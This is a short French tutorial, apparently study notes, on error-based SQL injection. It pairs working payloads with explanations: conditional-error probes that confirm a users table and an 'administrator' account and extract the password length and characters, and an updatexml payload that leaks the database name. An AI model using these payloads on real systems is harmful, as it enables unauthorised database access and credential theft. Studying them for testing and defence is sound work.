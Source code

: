 # Error-Based SQL injection

L’Error-Based SQLi est une technique d’injection SQL qui consiste à provoquer une erreur volontaire pour que le serveur affiche un message contenant des informations sensibles sur la base de données.



## Objectif :

- Obtenir des infos comme : nom de la base, noms de colonnes, versions, etc.
- Rendre visibles des vulnérabilités qui étaient invisibles.


## Deux types d’erreurs exploitées:

**1. Erreur conditionnelle (Blind Error-Based)**

On déclenche une erreur seulement si une condition est vraie.


```sql
' AND (SELECT CASE WHEN (username='admin') THEN 1/0 ELSE 1 END) -- 
```
- Si admin existe → division par zéro → erreur
- Sinon → pas d’erreur

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
-- No Error

xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a 
-- Error

'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
-- No Error

'||(SELECT '' FROM not-a-real-table)||'
-- Error
```

Si on a une erreur, Cela démontre qu'il est possible de déclencher une erreur conditionnellement à la véracité d'une condition spécifique.

```sql
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
-- vérifier l'existence de la table users. Comme cette requête ne renvoie pas d'erreur, vous pouvez en déduire que cette table existe bel et bien.

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- vérifier l'existence du nom d'utilisateur : administrator. Vérifiez que la condition est vraie (l'erreur est reçue), confirmant qu'il existe un utilisateur appelé administrator.

'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- déterminer le nombre de caractères du mot de passe de l'administrator. Cette condition doit être vraie, confirmant que le mot de passe comporte plus d'un caractère.

'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- confirmer que le premier caractère du mot de passe est a
```


**2. Erreur contenant les données (Direct Error**)

On déclenche une erreur SQL qui contient directement la donnée recherchée.


```sql
' AND updatexml(null, concat(0x7e, (SELECT database()), 0x7e), null) -- 
```

- Affiche le nom de la base dans l’erreur.
- Utilisé pour extraire des données directement via les messages d’erreur.